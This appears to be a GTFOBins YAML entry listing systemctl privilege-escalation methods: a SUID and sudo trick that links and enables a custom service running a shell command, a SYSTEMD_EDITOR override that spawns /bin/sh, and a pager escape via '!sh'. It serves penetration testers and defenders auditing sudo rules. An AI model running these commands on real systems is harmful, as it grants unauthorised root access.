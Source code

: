 ```yaml
---
functions:
  suid:
    - code: |
        TF=$(mktemp).service
        echo '[Service]
        Type=oneshot
        ExecStart=/bin/sh -c "id > /tmp/output"
        [Install]
        WantedBy=multi-user.target' > $TF
        ./systemctl link $TF
        ./systemctl enable --now $TF
  sudo:
    - code: |
        TF=$(mktemp)
        echo /bin/sh >$TF
        chmod +x $TF
        sudo SYSTEMD_EDITOR=$TF systemctl edit system.slice
    - code: |
        TF=$(mktemp).service
        echo '[Service]
        Type=oneshot
        ExecStart=/bin/sh -c "id > /tmp/output"
        [Install]
        WantedBy=multi-user.target' > $TF
        sudo systemctl link $TF
        sudo systemctl enable --now $TF
    - description: This invokes the default pager, which is likely to be [`less`](/gtfobins/less/), other functions may apply.
      code: |
        sudo systemctl
        !sh
---
```

